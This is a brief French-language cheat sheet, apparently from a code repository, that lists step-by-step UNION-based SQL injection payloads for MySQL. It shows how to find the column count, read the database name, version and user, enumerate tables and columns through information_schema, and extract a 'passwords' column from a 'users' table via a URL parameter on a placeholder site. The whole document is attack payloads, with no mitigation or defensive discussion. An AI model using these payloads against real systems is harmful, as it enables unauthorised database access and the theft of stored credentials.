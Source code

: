 ## Cas d'une SQL injection UNION attacks sur MySQL
*L'objectif est de résumé les étapes d'une SQLi UNION en simplifiant le plus possible*

### 1. Nombre de colonne
' ORDER by 1
' UNION SELECT NULL,NULL,NULL
' UNION SELECT 1,2,3

### 2. Nom de la base de données
' UNION SELECT 1,2,database()

### 3. Version de la base de données
' UNION SELECT 1,2,version()

### 4. User de la base de données
' UNION SELECT 1,2,user()

### 5. Nom des tables
https://exemple.com/test.php?param=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

### 6. Nom des colonnes dans une table (ex : table "users")
https://exemple.com/test.php?param=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'

### 7. On selectionne les colonnes qui nous intéressent (ex: colonne "passwords")
https://exemple.com/test.php?param=1' union select 1,2,group_concat(passwords) from users

### En résumé : 
1. Nombre de colonne
2. On teste quelles colonnes nous retournent des chaînes de caratères (string datas)
3. Nom, version et user de la base de données
4. Nom des tables
5. Noms des colonnes
6. ontenue des colonnes
